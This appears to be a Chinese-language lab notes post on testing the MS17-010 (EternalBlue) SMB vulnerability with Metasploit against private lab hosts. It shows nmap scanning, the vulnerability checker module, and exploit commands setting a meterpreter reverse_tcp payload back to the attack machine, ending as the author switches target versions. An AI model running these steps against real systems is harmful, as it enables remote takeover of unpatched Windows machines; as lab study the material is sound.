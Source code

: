 ```yaml
---
title: ms17-010
date: 2018-09-13 17:03:38
tags: [MSF]
categories:
thumbnail:
---
```


# MS17-010

## 预设

靶机：172.16.189.137

攻击机：172.16.189.133

## 检测

```bash
nmap -sV -Pn 172.16.189.137
```

很慢

```bash
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows 2003 or 2008 microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
```

使用专用检测模块

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 172.16.189.137
run
[+] 172.16.189.137:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 Service Pack 2
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 172.16.189.137
set LHOST 172.16.189.133
set payload windows/x64/meterpreter/reverse_tcp
```

做到这里我发现，我测试使用的两个靶机：win server 2003 e64 和 win server 2012 r2 均不可用此payload，于是又去下了个win server 2008 r2